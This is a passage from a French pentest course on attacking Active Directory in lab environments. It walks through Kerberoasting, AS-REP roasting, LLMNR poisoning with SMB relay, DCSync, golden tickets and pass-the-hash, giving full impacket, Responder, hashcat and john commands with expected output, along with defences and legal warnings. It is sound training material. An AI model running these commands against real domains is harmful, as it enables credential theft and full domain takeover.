| `--wordlist=rockyou.txt` | Liste de mots de passe réels (décompresser d'abord : `sudo gunzip /usr/share/wordlists/rockyou.txt.gz`) |

**Résultat attendu :**

```text
Created directory: /home/user/.john
Using default input encoding: UTF-8
Loaded 1 password hash (krb5tgs, Kerberos 5 TGS etype 23 [MD4 HMAC-MD5 RC4])
Warning: no OpenMP support...
Winter2021!       (?)
```

**Étape 4 — Vérifier avec le mot de passe en clair.**

```bash
john --show --format=krb5tgs kerberoast.txt
```

Sortie : `?:Winter2021!`

**Analyse.** Le compte de service `svc-sql` avait le mot de passe `Winter2021!` : 11 caractères, présent dans `rockyou.txt`. Le cracking a pris ~30 secondes. C'est la leçon : un compte de service au mot de passe faible, avec des droits (même limités), offre un point d'entrée. Vérifie maintenant avec `Get-ADUser svc-sql -Properties memberOf` (si tu es sur un poste Windows) ce que ce compte peut faire — souvent, il est membre d'un groupe semi-privilégié.

**Erreurs fréquentes.**

| Erreur | Symptôme | Cause | Correction |
| ------ | -------- | ----- | ---------- |
| Format john incorrect | `No password hashes loaded` | Préfixe `$krb5tgs$` mais mauvais `--format` | Forcer `--format=krb5tgs` |
| Wordlist absente | `Could not open file` | `rockyou.txt` est compressé | `sudo gunzip /usr/share/wordlists/rockyou.txt.gz` |
| Ticket AES non cassé | john ne trouve rien | Domaine en AES256 (etype 18) | Vérifier le etype ; les TGS RC4 (23) sont cassables plus vite |
| Erreur de copie du hash | john affiche un hash tronqué | Retour à la ligne ou caractères manquants | Recopier la ligne complète `$krb5tgs$23$...` exactement |

**Correction d'erreur fréquente.** Si le ticket est en AES (`$krb5tgs$18$`), le cracking est beaucoup plus lent (million de fois plus). Préfère `-request` (RC4) si possible, ou passe une très longue wordlist : la vraie défense est de rendre le cracking impossible (mots de passe longs).

---

### Démo 3 — AS-REP Roasting : GetNPUsers.py

**Contexte.** Dans le labo, ton énumération LDAP (démo 1) a listé tous les utilisateurs dans `users.txt`. Tu n'as encore **aucun mot de passe** pour `claire`, mais BloodHound et l'attribut `DONT_REQUIRE_PREAUTH` indiquent que son compte n'exige pas la pré-authentification Kerberos.

**Objectif.** Récupérer le TGT de `claire` sans connaître son mot de passe, puis casser le hash.

**Étape 1 — Vérifier les comptes AS-REP roastables.**

```bash
GetNPUsers.py sevenkingdoms.local/ -usersfile users.txt -dc-ip 192.168.56.10 -no-pass
```

**Explication ligne par ligne.**

| Élément | Explication |
| ------- | ----------- |
| `GetNPUsers.py` | Outil impacket : tente de demander un TGT pour chaque utilisateur **sans** fournir de preuve de pré-authentification |
| `-usersfile users.txt` | Liste des noms d'utilisateurs à tester |
| `-dc-ip 192.168.56.10` | Le KDC |
| `-no-pass` | Indique qu'on n'a pas de mot de passe (c'est justement le principe) |

**Résultat attendu :**

```text
[-] Kerberos SessionError: KDC_ERR_PREAUTH_REQUIRED - Required pre-authentication has not been performed
[+] $krb5asrep$23$claire@SEVENKINGDOMS.LOCAL:3f6d...c9a2
```

Les lignes `[-] ...PREAUTH_REQUIRED` = comptes protégés (pré-auth exigée). La ligne `[+]` = le compte de `claire` répond avec un TGT chiffré par sa clé → AS-REP roastable.

**Étape 2 — Sauvegarder et casser.**

```bash
echo '$krb5asrep$23$claire@SEVENKINGDOMS.LOCAL:3f6d...c9a2' > asrep.txt
john --format=krb5asrep --wordlist=/usr/share/wordlists/rockyou.txt asrep.txt
```

**Résultat attendu :**

```text
Loaded 1 password hash (krb5asrep, Kerberos 5 AS-REP etype 23)
claire123        (?)
```

**Analyse.** Sans aucun mot de passe, tu as obtenu celui de `claire`. Le problème n'est pas « claire a un mot de passe faible » (c'est souvent le cas) mais que son compte est configuré avec l'attribut **`DONT_REQUIRE_PREAUTH`** : le KDC lui a délivré un TGT chiffré avec sa clé **sans preuve**. Défense : réactiver la pré-authentification et vérifier la configuration via `Get-ADUser claire -Properties UserAccountControl`.

**Erreurs fréquentes.**

| Erreur | Symptôme | Cause | Correction |
| ------ | -------- | ----- | ---------- |
| `users.txt` mal formaté | Aucun compte testé | Noms erronés ou espaces | Un nom par ligne, exactement le `sAMAccountName` |
| Confusion Kerberoast/AS-REP | hash `$krb5tgs$` attendu | Mauvais outil | `GetNPUsers.py` = AS-REP (`$krb5asrep$`), `GetUserSPNs.py` = Kerberoast (`$krb5tgs$`) |
| Format john | `No password hashes loaded` | Mauvais `--format` | `--format=krb5asrep` |

**Correction d'erreur fréquente.** Si john refuse le hash `$krb5asrep$`, vérifie qu'il est complet (du `$` initial jusqu'au dernier hex). Pour hashcat : `hashcat -m 18200 asrep.txt rockyou.txt`.

---

### Démo 4 — LLMNR poisoning avec Responder puis relais SMB

**Contexte.** Tu es sur le LAN du labo (`192.168.56.0/24`), en tant qu'attaquant sur une machine Kali. Le labo ne désactive pas LLMNR/NBT-NS (c'est la vulnérabilité volontaire). Une victime tape une adresse de partage avec une faute de frappe : `\\dc01e` au lieu de `\\dc01`.

**Objectif.** Capturer l'authentification NTLMv2 déclenchée par l'erreur de résolution, puis **relayer** cette authentification vers un serveur cible sans jamais casser le mot de passe.

**Étape 1 — Lancer Responder en capture.**

```bash
sudo responder -I eth0
```

**Explication ligne par ligne.**

| Élément | Explication |
| ------- | ----------- |
| `sudo` | Nécessaire : les sockets d'écoute sur les ports 137-139, 445, 5355 demandent les privilèges root |
| `responder` | Outil qui écoute et répond à toutes les requêtes LLMNR/NBT-NS/mDNS |
| `-I eth0` | Interface réseau (adapter au labo : `-I eth0` ou `-I eth1`) |

**Résultat attendu** (dès qu'une victime tape une mauvaise adresse) :

```text
[+] Listening for events...
[+] [LLMNR] Poisoned answer sent to 192.168.56.50 for name dc01e
[SMB] NTLMv2-SSP Client   : 192.168.56.50
[SMB] NTLMv2-SSP Username : SEVENKINGDOMS\svc-backup
[SMB] NTLMv2-SSP Hash     : svc-backup::SEVENKINGDOMS:a1b2c3d4e5f6a7b8:face8b9c...3f2a
```

La ligne clé est `NTLMv2-SSP Hash` : c'est le hash **NetNTLMv2** de `svc-backup` (format `utilisateur::domaine:challenge:réponse`). Il peut être cassé ou relayé.

**Étape 2 — Vérifier si la cible du relais exige la signature SMB.**

Avant de relayer, on vérifie si le serveur cible accepte les connexions non signées :

```bash
nxc smb 192.168.56.20 -u '' -p '' -M smb_signing
```

**Explication ligne par ligne.**

| Élément | Explication |
| ------- | ----------- |
| `nxc smb` | netexec, module SMB |
| `192.168.56.20` | La cible potentielle du relais (ici le serveur `srv01`) |
| `-u '' -p ''` | Aucun identifiant : on teste la configuration, pas les comptes |
| `-M smb_signing` | Module qui vérifie si la signature SMB est requise |

**Résultat attendu :**

```text
SMB  192.168.56.20  445  SRV01   [*] Windows 10 / 2019 Server Build ...
SMB  192.168.56.20  445  SRV01   [*] smb_signing: False (messages non signés acceptés)
```

`smb_signing: False` = le relais est possible vers cette machine (les connexions non signées sont acceptées).

**Étape 3 — Relayer avec ntlmrelayx.**

```bash
sudo ntlmrelayx.py -t smb://192.168.56.20 -smb2support -i
```

**Explication ligne par ligne.**

| Élément | Explication |
| ------- | ----------- |
| `sudo ntlmrelayx.py` | Outil impacket qui relaie les authentifications NTLM capturées |
| `-t smb://192.168.56.20` | La cible du relais : le serveur SMB `srv01` |
| `-smb2support` | Autoriser le dialecte SMB2 (sinon la cible doit parler SMB1) |
| `-i` | À chaque relais réussi, ouvrir une **session interactive** sur la cible |

**Résultat attendu** (quand la victime retente sa faute de frappe, Responder ayant été stoppé et ntlmrelayx prenant le relais) :

```text
[*] SMBD-Thread-5: Connection from 192.168.56.50 controlled, attacking target smb://192.168.56.20
[+] Authenticating against smb://192.168.56.20 as SEVENKINGDOMS\svc-backup SUCCEED
[+] Started interactive SMB client shell via TCP at 127.0.0.1:11000
```

**Étape 4 — Se connecter au shell relayé.**

```bash
nc 127.0.0.1 11000
```

```text
Type help for list of commands
# shares
```

**Analyse.** Sans avoir cassé le moindre mot de passe, l'authentification NTLMv2 de `svc-backup` a été relayée vers `srv01` et tu as un shell SMB sur la cible. Deux contraintes étaient respectées : la cible ne signe pas SMB, et le compte relégué a des droits (ici `svc-backup` est `Backup Operators`, donc admin local de la plupart des machines). Si la cible avait exigé la signature, le relais aurait échoué : il aurait fallu casser le hash (`hashcat -m 5600`) ou relayer vers un autre protocole (LDAP, HTTP).

**Erreurs fréquentes.**

| Erreur | Symptôme | Cause | Correction |
| ------ | -------- | ----- | ---------- |
| Pas de relais réussi | `Authenticating ... FAILED` | La cible exige la signature SMB | Vérifier `smb_signing` ; choisir une autre cible ou casser le hash |
| `-smb2support` oublié | Échec de négociation | La cible ne parle pas SMB1 | Ajouter `-smb2support` |
| Responder et ntlmrelayx simultanés | Conflits de ports | Les deux écoutent sur 445 | Ne jamais lancer les deux en même temps (ou configurer `Responder -r -d -w` pour désactiver SMB/HTTP) |
| Mauvaise interface | Aucune requête capturée | `-I eth0` ≠ interface du labo | Vérifier avec `ip a` ; le labo utilise souvent `eth1`/`vboxnet0` |

**Correction d'erreur fréquente.** Le casse-tête classique : « j'ai un hash mais le relais échoue ». Vérifie systématiquement la signature SMB de la cible **avant** de relayer : `nxc smb cible -u '' -p '' -M smb_signing`. Si elle est requise, soit tu casses le hash, soit tu relayes vers LDAP (`-t ldap://dc`) pour créer un compte ou ajouter un utilisateur à un groupe.

---

### Démo 5 — DCSync puis golden ticket : secretsdump.py et ticketer.py

**Contexte.** Dans le labo, tu as obtenu un compte avec les droits de réplication sur le domaine : `svc-backup` (membre de `Backup Operators` via le chemin BloodHound de la démo 1). Le DC est `dc01` (`192.168.56.10`), domaine `sevenkingdoms.local`.

**Objectif.** Extraire les hashes de tous les comptes (dont `krbtgt`) avec `secretsdump.py`, puis forger un golden ticket avec `ticketer.py` et l'utiliser pour accéder au DC comme `Administrator`.

**Étape 1 — Vérifier les droits de réplication.**

```bash
bloodhound-python -u svc-backup -p 'Backup123!' -d sevenkingdoms.local -ns 192.168.56.10 -c All
```

**Étape 2 — Extraire les hashes avec secretsdump.py (DCSync).**

```bash
secretsdump.py sevenkingdoms.local/svc-backup:'Backup123!'@192.168.56.10
```

**Explication ligne par ligne.**

| Élément | Explication |
| ------- | ----------- |
| `secretsdump.py` | Outil impacket qui extrait les secrets d'un système : via DCSync s'il a les droits, sinon via d'autres méthodes |
| `sevenkingdoms.local/svc-backup:'Backup123!'` | Domaine / compte / mot de passe du compte autorisé à la réplication |
| `@192.168.56.10` | Le DC cible : secretsdump simule une réplication (protocole DRSR) et le DC obéit |

**Résultat attendu :**

```text
Impacket v0.11.0 - Copyright 2021 Fortra

[*] Target system bootKey: 0x...
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
Administrator:500:aad3b435b51404eeaad3b435b51404ee:3171f97f4c5a6d1f7b3c2e1a5d6e8f9a:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:6b3a8d3c9f2e5a7b1c4d6e8f9a0b1c2d3:::
...
svc-backup:1103:aad3b435b51404eeaad3b435b51404ee:3f6d2e9c8b1a4f7e5d6c3b2a1f0e9d8c:::
```

Deux lignes capitales : `Administrator:500:...` (hash NT du compte admin) et `krbtgt:502:...` (hash NT du compte du KDC — **la clé qui permet de forger des TGT**). Le hash `31d6cfe0d16ae931b73c59d7e0c089c0` (Guest) est le hash « vide » connu.

**Étape 3 — Récupérer le SID du domaine.**

```bash
Get-ADDomain | Select-Object Name, DomainSID
# sur un poste Windows membre du domaine : S-1-5-21-1957994488-3892346002-1172225933
```

Ou depuis Kali, dans la sortie de secretsdump la ligne du compte machine du DC (`DC01$:1000:...`) contient le SID dans le `sAMAccountName`… plus simple : l'attribut `DomainSID` via `Get-ADDomain` (PowerShell) ou BloodHound (onglet Domain → Domain SID).

**Étape 4 — Forger le golden ticket avec ticketer.py.**

```bash
ticketer.py -nthash 6b3a8d3c9f2e5a7b1c4d6e8f9a0b1c2d3 -domain-sid S-1-5-21-1957994488-3892346002-1172225933 -domain sevenkingdoms.local Administrator
```

**Explication ligne par ligne.**

| Élément | Explication |
| ------- | ----------- |
| `ticketer.py` | Outil impacket qui forge des tickets Kerberos (golden, silver) |
| `-nthash 6b3a...` | Le hash NT du compte **`krbtgt`** (récupéré à l'étape 2) — la signature des TGT |
| `-domain-sid S-1-5-21-...` | Le SID du domaine (pour encoder le compte dans le ticket) |
| `-domain sevenkingdoms.local` | Le domaine |
| `Administrator` | Le compte à impersonner (peut même être un compte fictif) |

**Résultat attendu :**

```text
[*] Creating basic skeleton ticket and target LUID 0x0
[*] Customizing ticket for sevenkingdoms.local/Administrator
[*]     PAC_LOGON_INFO
[*]     PAC_CLIENT_INFO_TYPE
...
[*] Signature copied. Ticket saved to Administrator.ccache
```

**Étape 5 — Utiliser le golden ticket.**

```bash
export KRB5CCNAME=Administrator.ccache
psexec.py -k -no-pass sevenkingdoms.local/Administrator@dc01.sevenkingdoms.local
```

**Explication ligne par ligne.**

| Élément | Explication |
| ------- | ----------- |
| `export KRB5CCNAME=Administrator.ccache` | Indique aux outils impacket où se trouve le cache de tickets Kerberos |
| `psexec.py -k` | Utilise le mode Kerberos (le ticket au lieu du mot de passe) |
| `-no-pass` | Ne demande aucun mot de passe (le ticket suffit) |
| `sevenkingdoms.local/Administrator@dc01...` | Connexion au DC en tant qu'Administrator |

**Résultat attendu :**

```text
Impacket v0.11.0 ...
[*] Requesting shares on dc01.sevenkingdoms.local.....
C:\Windows\system32> whoami
sevenkingdoms\administrator
C:\Windows\system32> net user krbtgt /domain
```

Tu es **SYSTEM/Administrator sur le contrôleur de domaine** : le domaine est contrôlé. Le golden ticket reste valable tant que la clé de `krbtgt` n'est pas changée — même si tous les mots de passe du domaine sont réinitialisés.

**Analyse.** La chaîne complète du labo s'est fermée : énumération → droits de réplication → DCSync → clé `krbtgt` → golden ticket → contrôle du DC. Chaque étape était **détectable** avec la bonne télémétrie (évènement 4662 pour le DCSync, TGS anormaux, accès `ADMIN$`). En pentest, on démontre puis on documente ; en red team, on nettoie et on persiste.

**Erreurs fréquentes.**

| Erreur | Symptôme | Cause | Correction |
| ------ | -------- | ----- | ---------- |
| SID du domaine erroné | `KDC_ERR_PREAUTH_REQUIRED` ou échec d'accès | SID du compte au lieu du SID du domaine | `Get-ADDomain.DomainSID` (pas `Get-ADUser`) |
| Mauvais hash `krbtgt` | Ticket rejeté | A utilisé un autre hash | Relire la ligne `krbtgt:502:...` |
| Horloge désynchronisée | `KRB_AP_ERR_SKEW` | L'horloge Kali ≠ DC | `sudo ntpdate dc01` ou `timedatectl` ; Kerberos tolère ±5 min |
| `KRB5CCNAME` non exporté | impacket demande un mot de passe | Le cache n'est pas pointé | `export KRB5CCNAME=$(pwd)/Administrator.ccache` |
| Ticket expiré | `KRB_AP_ERR_TKT_EXPIRED` | Durée de vie dépassée | Re-forger le ticket (ticketer) |

**Correction d'erreur fréquente.** Si le golden ticket semble invalide, vérifie d'abord l'horloge : `date`. Un écart de plus de 5 minutes tue Kerberos. Puis vérifie le SID (il doit commencer par `S-1-5-21-` et être le SID **du domaine**, pas celui d'un compte).

---

## Cas réels

> ⚠️ **Légal** — Les deux scénarios suivants se déroulent dans un laboratoire autorisé (GOAD ou machine HTB). Ils simulent des missions réelles de pentest AD. Aucune de ces actions n'est légale sur un domaine réel sans contrat écrit : ce sont les techniques des ransomwares (Ryuk, Conti, BlackCat), et seule l'autorisation rend la pratique licite.

---

### Cas réel 1 — « Le client veut tester son domaine : trouve le chemin le plus court jusqu'au DC »

**Le contexte.** Tu es recruté par « Megacorp » pour un test d'intrusion interne. Le contrat précise : *« Trouvez le chemin le plus court et le moins détectable menant au contrôle total du domaine megacorp.local. »* Tu disposes d'un accès initial : un poste de travail `WS-ALICE` avec le compte `alice` (utilisatrice du marketing), dont tu as récupéré le mot de passe par une campagne de phishing autorisée.

**Ce que tu sais** (après la phase de collecte) :

- Domaine `megacorp.local`, DC `dc01` (10.10.10.5), 2 autres DC répliqués.
- `alice` est membre de `Marketing` (un groupe de ressources) et de `RDP_Users` local du serveur `srv-app01`.
- Le serveur `srv-app01` héberge l'application métier ; le compte de service `svc-app` (SPN `MSSQLSvc/srv-app01`) y est enregistré.
- BloodHound : `alice` → `RDP_Users` sur `srv-app01` ; `svc-app` est membre de `Domain Admins` (sic, une configuration volontairement mauvaise).

**Ton raisonnement (le chemin d'attaque) :**

```text
alice ──(RDP_Users)──► srv-app01 ──(svc-app en mémoire/session)──► Kerberoast svc-app
      ──(svc-app ∈ Domain Admins)──► Contrôle total du domaine
```

1. **Validation du chemin** : `nxc smb 10.10.10.0/24 -u alice -p 'MotDePasse!'` confirme les machines accessibles. BloodHound confirme la relation `alice → RDP_Users → srv-app01`.
2. **Accès RDP au serveur** : `xfreerdp /u:alice /p:'MotDePasse!' /v:10.10.10.6` (serveur d'applications). RDP est le vecteur (autorisé dans le scope).
3. **Vol du compte de service** : sur `srv-app01`, tu n'as pas les droits admin local (pas encore). Mais `alice` peut demander des TGS : `GetUserSPNs.py megacorp.local/alice:'MotDePasse!' -dc-ip 10.10.10.5 -request` → tu récupères le TGS de `svc-app`.
4. **Cracking** : `hashcat -m 13100 svc-app.tgs /usr/share/wordlists/rockyou.txt` → le mot de passe de `svc-app` tombe en quelques minutes (il est dans le dictionnaire).
5. **Exploitation** : `svc-app` est membre de `Domain Admins`. `psexec.py megacorp.local/svc-app:'motdepasse'@dc01` → shell SYSTEM sur le DC. **Domaine contrôlé en 5 étapes.**

**Pourquoi ce chemin était-il le plus court ?** Parce que le compte de service `svc-app` était **membre de Domain Admins** (une erreur de configuration) : un seul Kerberoasting a transformé « un compte marketing » en « administrateur du domaine ». Le client avait une politique de mots de passe correcte pour les humains, mais les comptes de service échappaient à la règle (mot de passe dans rockyou, jamais changé depuis 2019).

**Ce que tu documentes dans le rapport :**

- Le chemin complet avec les nœuds BloodHound (une image de graphe vaut mille mots).
- La cause racine : compte de service dans un groupe privilégié + mot de passe faible et jamais roté.
- Les correctifs : retirer `svc-app` de `Domain Admins`, passer en gMSA, longueur 25+ ou rotation automatique, monitoring de l'évènement 4769.
- Le temps estimé de l'attaque : ~35 minutes (collecte BloodHound incluse).

---

### Cas réel 2 — « Tu as obtenu un hash NTLM d'un admin local : comment te mouvoir latéralement ? »

**Le contexte.** Sur le labo, tu as compromis le poste `WS-BOB` et lancé mimikatz : `sekurlsa::logonpasswords` a révélé le hash NT de `bob.admin` (un compte de domaine) qui s'est connecté récemment sur ce poste : `aad3b435b51404eeaad3b435b51404ee:56f8a1b2c3d4e5f60718293a4b5c6d7e`. Tu ne connais PAS son mot de passe en clair.

**Ce que tu sais :**

- `bob.admin` est membre de `Domain Admins` (c'est un admin de domaine).
- Le poste `WS-BOB` est une machine Windows 10 Pro du domaine.
- La cible finale : `dc01` (10.10.10.5).

**Ton raisonnement :**

1. **Le PtH ne demande jamais le mot de passe.** NTLM accepte le hash NT comme secret. `psexec.py -hashes :56f8a1b2c3d4e5f60718293a4b5c6d7e megacorp.local/bob.admin@dc01` devrait fonctionner **si** `bob.admin` a les droits sur le DC (Domain Admins ⇒ oui) et **si** SMB n'est pas bloqué.
2. **Premier essai — psexec vers le DC :**

```bash
psexec.py -hashes :56f8a1b2c3d4e5f60718293a4b5c6d7e megacorp.local/bob.admin@10.10.10.5
```

```text
[*] Requesting shares on 10.10.10.5.....
C:\Windows\system32> whoami
megacorp\bob.admin
```

3. **Alternative si SMB échoue — WinRM :**

```bash
nxc winrm 10.10.10.5 -u bob.admin -H 56f8a1b2c3d4e5f60718293a4b5c6d7e
evil-winrm -u bob.admin -H 56f8a1b2c3d4e5f60718293a4b5c6d7e -i 10.10.10.5
```

**Analyse.** Le PtH a fonctionné **sur le DC** car `bob.admin` est un admin de domaine. Si le compte avait été un simple admin local de `WS-BOB` (RID 500 ou Administrators local), le PtH vers le DC aurait échoué : le hash local n'a de valeur que sur **cette machine**. Le mouvement latéral exige donc de connaître **l'étendue des droits du compte** avant de frapper — c'est ce que BloodHound et netexec (test en masse) donnent en une commande.

**Les variantes à connaître :**

| Situation | Technique | Outil |
| --------- | --------- | ----- |
| Hash NT + accès SMB admin sur la cible | Pass-the-Hash | `psexec.py -hashes`, `nxc smb -H` |
| Hash NT + WinRM ouvert | Pass-the-Hash WinRM | `evil-winrm -H`, `nxc winrm -H` |
| Hash NT mais Kerberos exigé | Overpass-the-Hash | mimikatz `sekurlsa::pth`, Rubeus |
| Ticket TGT/TGS volé | Pass-the-Ticket | mimikatz `kerberos::ptt`, Rubeus `ptt`, `psexec.py -k` |

**La leçon du cas réel :** un hash NT ne vaut que là où le compte a des droits. Le réflexe pro : marquer le hash comme « owned » dans BloodHound, lancer « Shortest Paths from Owned Principals », et ne frapper que les nœuds où le chemin est confirmé.

---

## Laboratoires

> ⚠️ **Légal** — Les deux travaux pratiques se déroulent **exclusivement** sur GOAD (Game of Active Directory, réseau isolé `192.168.56.0/24`), une machine HackTheBox Active Directory (ex. `Forest`) ou une room TryHackMe dédiée. Chaque TP peut être résolu sur l'environnement de ton choix, mais les adresses et les noms ci-dessous correspondent au labo GOAD. **Jamais sur un domaine réel.**

---

### TP1 — « De l'accès initial au contrôle du domaine »

**Objectif.** Enchaîner la chaîne complète sur GOAD : énumération → Kerberoasting → escalade → contrôle du DC. Tu pars d'un simple accès `alice:Password123!` sur le domaine `sevenkingdoms.local`.

**Environnement.** GOAD déployé (réseau `192.168.56.0/24`), Kali Linux dans le même réseau, BloodHound + Neo4j installés (`sudo apt install bloodhound neo4j`), impacket installé (`sudo apt install impacket-scripts`).

**Étapes (sans correction — à faire toi-même) :**

1. **Trouver le DC** : `nmap -sV 192.168.56.0/24` (ports 445, 88, 389, 636 présents = DC) ; confirmer avec `nslookup` via le DNS du labo.
2. **Collecte BloodHound** : `bloodhound-python -u alice -p 'Password123!' -d sevenkingdoms.local -ns 192.168.56.10 -c All`, importer dans BloodHound, marquer `alice` comme owned.
3. **Lire les chemins** : requête « Shortest Paths to Domain Admins ». Identifier le compte de service Kerberoastable sur le chemin.
4. **Kerberoasting** : `GetUserSPNs.py -dc-ip 192.168.56.10 sevenkingdoms.local/alice:'Password123!' -request`, puis casser avec `john --format=krb5tgs` (rockyou).
5. **Vérifier les droits du compte trouvé** : `Get-ADUser <compte> -Properties memberOf` (sur un poste Windows du labo) ou via BloodHound.
6. **Atteindre le DC** : en utilisant les droits du compte (ex. membre de `Backup Operators` → `secretsdump.py`, ou `Remote Management Users` → WinRM, ou admin local → `psexec.py`).
7. **DCSync** : `secretsdump.py -just-dc-ntlm` → récupérer le hash de `Administrator` et de `krbtgt`.
8. **Rapport** : écrire les 5 lignes du chemin (utilisateur → groupe → machine → compte → domaine) avec les commandes utilisées.

**Indices (si tu bloques) :**

- *Indice 1* : le port 88 (Kerberos) et le port 389 (LDAP) identifient un DC mieux que le port 445 (trop de machines le portent).
- *Indice 2* : si BloodHound ne montre aucun chemin court, vérifie que `-ns` pointe bien vers le DC et que la collecte a bien récupéré les **sessions** (`-c All` inclut les sessions).
- *Indice 3* : un compte `Backup Operators` peut lire NTDS.dit — `secretsdump.py` suffit, pas besoin de DCSync.

**Correction (résumé pas à pas) :**

1. `sudo nmap -sV 192.168.56.0/24` → `192.168.56.10` (dc01) ouvre 88/389/445/636.
2. Collecte + import + `alice` owned.
3. BloodHound affiche : `alice → IT Support → srv01 → (session) svc-backup → Backup Operators → dc01`. Le compte Kerberoastable est `svc-backup` (SPN `sevenkingdoms.local/svc-backup`).
4. `GetUserSPNs.py sevenkingdoms.local/alice:'Password123!' -dc-ip 192.168.56.10 -request` → TGS → `john --format=krb5tgs --wordlist=rockyou.txt kerberoast.txt` → mot de passe trouvé.
5. `svc-backup` est `Backup Operators` : il peut sauvegarder (lire) NTDS.dit.
6. `secretsdump.py sevenkingdoms.local/svc-backup:'<motdepasse>'@192.168.56.10` → hashes de tous les comptes.
7. Le hash de `Administrator:500:` permet `psexec.py -hashes :<hash> sevenkingdoms.local/administrator@192.168.56.10` → shell SYSTEM sur le DC.
8. Le hash de `krbtgt:502:` permet le golden ticket (démo 5) — c'est la « preuve ultime » du contrôle total.

**Explications.** La chaîne fonctionne parce que chaque privilège est une clé pour la porte suivante : le groupe `IT Support` donne accès à `srv01`, la **session** de `svc-backup` sur `srv01` transforme « accès à la machine » en « accès au compte », `Backup Operators` donne la lecture de NTDS.dit, et les hashes donnent tout le reste. BloodHound ne t'a pas donné le mot de passe : il t'a donné la **carte**. Sans la carte, tu aurais passé des heures à frapper des portes au hasard.

---

### TP2 — « Attaque réseau LLMNR : de la capture à l'accès »

**Objectif.** Sur le réseau du labo, empoisonner LLMNR/NBT-NS avec Responder, capturer un hash NetNTLMv2, le casser, puis utiliser le mot de passe trouvé pour accéder à une machine du domaine.

**Environnement.** GOAD (réseau `192.168.56.0/24`) avec au moins un poste Windows actif ; Kali dans le même réseau. Le labo est volontairement configuré **sans** désactivation de LLMNR/NBT-NS (c'est la vulnérabilité). Un script ou un utilisateur du poste tape régulièrement `\\dc01e` (faute de frappe volontaire du labo).

**Étapes :**

1. **Écouter** : `sudo responder -I eth0` (ou l'interface du réseau du labo).
2. **Déclencher la faute de frappe** : sur le poste victime, ouvrir `\\dc01e` (dans le vrai monde, c'est un utilisateur qui fait une erreur ; dans le labo, tu peux le simuler).
3. **Capturer le hash** : repérer la ligne `[SMB] NTLMv2-SSP Hash` dans les logs de Responder.
4. **Casser** : `hashcat -m 5600 hash.txt rockyou.txt` (ou `john --format=netntlmv2`).
5. **Utiliser** : `nxc smb 192.168.56.0/24 -u <user> -p '<motdepasse>'` pour trouver où le compte a des droits, puis `evil-winrm` ou `psexec.py` pour obtenir un accès.

**Indices :**

- *Indice 1* : le hash capturé par Responder est au format `user::domain:challenge:hash` — ne le modifie pas, recopie-le dans un fichier propre.
- *Indice 2* : `hashcat -m 5600` attend un hash NetNTLMv2 (le « v1 » est le mode 5500). Vérifie le format avant de lancer.
- *Indice 3* : si le mot de passe n'est pas dans rockyou, essaie `john --format=netntlmv2` avec une règle, ou relance la capture (le hash change à chaque challenge).

**Correction :**

1. `sudo responder -I eth1` (interface du labo) → `[+] Listening for events...`.
2. Sur le poste victime : `start \\dc01e` → le poste ne trouve pas `dc01e` en DNS, demande en LLMNR, **Responder répond**.
3. Logs : `[SMB] NTLMv2-SSP Username : SEVENKINGDOMS\utilisateur` + `[SMB] NTLMv2-SSP Hash : utilisateur::SEVENKINGDOMS:a1b2...:7f3e...`.
4. `echo 'utilisateur::SEVENKINGDOMS:a1b2...:7f3e...' > hash.txt` puis `hashcat -m 5600 hash.txt /usr/share/wordlists/rockyou.txt` → mot de passe en clair.
5. `nxc smb 192.168.56.0/24 -u utilisateur -p 'motdepasse' --shares` révèle les machines accessibles ; `psexec.py domain/utilisateur:'motdepasse'@cible` ou `evil-winrm` ouvre une session.

**Explications.** L'attaque fonctionne parce que la **résolution de noms** est un maillon faible : quand le DNS échoue, Windows se tourne vers LLMNR/NBT-NS (protocoles non authentifiés). Responder répond plus vite que le vrai service et reçoit l'authentification NTLM. Le hash capturé est **cassable hors ligne** (les mots de passe faibles tombent en minutes). Les défenses : désactiver LLMNR/NBT-NS par GPO, exiger la signature SMB, et vérifier que Responder ne détecte plus rien dans son propre labo (test de contrôle).

---

## Mini Challenges

> ⚠️ **Légal** — Les trois défis se résolvent sur le labo GOAD ou une machine HTB dédiée, avec un compte que tu contrôles. Chaque commande a un objectif précis : note ce que tu observes avant de la lancer.

---

### Challenge 1 (Facile) — Identifier les SPN Kerberoastables

**Objectif.** Depuis un compte du domaine, lister les SPN (Service Principal Names) et identifier les comptes **Kerberoastables** (ceux dont tu peux demander un TGS).

**Méthode conseillée.** Depuis Kali : `GetUserSPNs.py` sans `-request` (énumération seule). Depuis un poste Windows : PowerShell `setspn -T sevenkingdoms.local -Q */*` ou `Get-ADUser -Filter 'servicePrincipalName -like "*"' -Properties servicePrincipalName`.

**Indice 1.** Sans `-request`, GetUserSPNs.py affiche uniquement la liste des SPN : c'est l'énumération silencieuse.
**Indice 2.** Le champ à regarder est `ServicePrincipalName` d'un utilisateur : un SPN `sevenkingdoms.local/svc-xxx` signifie que le compte `svc-xxx` possède ce SPN.
**Indice 3.** Pour chaque SPN, note : le nom du compte, le `memberOf`, et la date de `PasswordLastSet` (un mot de passe très ancien = meilleure cible).

**Correction.** `GetUserSPNs.py sevenkingdoms.local/alice:'Password123!' -dc-ip 192.168.56.10` affiche le tableau des SPN. Chaque ligne est une cible potentielle de Kerberoasting. Pour confirmer qu'un TGS est demandable : `GetUserSPNs.py ... -request -target-user svc-app` puis casser le hash (cf. démo 2). Les comptes **sans** SPN ne sont pas Kerberoastables.

---

### Challenge 2 (Moyen) — Casser un ticket Kerberos

**Objectif.** Récupérer un TGS (Kerberoasting) puis le casser pour obtenir un mot de passe en clair. Tu disposes de `alice:Password123!` et le labo contient un compte `svc-app` au mot de passe faible.

**Étape attendue.** `GetUserSPNs.py ... -request` → fichier → `hashcat -m 13100` ou `john --format=krb5tgs` → mot de passe.

**Indice 1.** Le hash capturé commence par `$krb5tgs$23$` (RC4) ou `$krb5tgs$18$` (AES). Vérifie ce préfixe avant de choisir le mode.
**Indice 2.** `hashcat -m 13100 tgs.txt rockyou.txt` ; si le hash est AES, le cracking est beaucoup plus lent (mots de passe faibles quand même testables).
**Indice 3.** Si le TGS ne casse pas avec rockyou, pense à une wordlist spécialisée comptes de service (`svc*`, mots liés à l'application, saison+année, etc.) et aux règles `--rules=best64` de hashcat.

